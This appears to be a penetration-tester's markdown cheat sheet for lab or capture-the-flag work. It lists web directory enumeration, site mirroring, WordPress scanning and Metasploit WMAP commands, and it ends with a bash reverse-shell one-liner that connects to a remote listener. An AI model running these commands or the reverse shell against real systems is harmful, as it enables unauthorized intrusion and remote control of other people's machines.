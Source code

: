 ## Directory Discovery

Word lists are at `/usr/share/wordlists` (In KALI)

```
gobuster dir -u URL:port -t threads -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

Search for PHP files

```
gobuster dir -u http://IP/ -t 80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php
```

Backup: (Can get through things ^^^ can't)

```
dirsearch -u http://ipaddress
```

```
dirb http://IP/
```

-X .sh - extensions to search

-w /path/to/wordlist - wordlist


## Replicate website on local storage

```
wget http://ip/ -r
```
https:
```
wget http://ip/ -r --no-check-certificate
```

## Wordpress vulnerability checker

```
wpscan --url URL
```

--plugin-detection aggressive    -   Takes a long time, but digs up good dirt


## WMAP - Map website tool

Load module in msfconsole
```
load wmap
```

Add target site
```
wmap_sites -a http://IP
```
And
```
wmap_targets -t http://ip-address
```
Execute
```
wmap_run -e
```


## Reverse Shell through encded URL

```
bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'
```
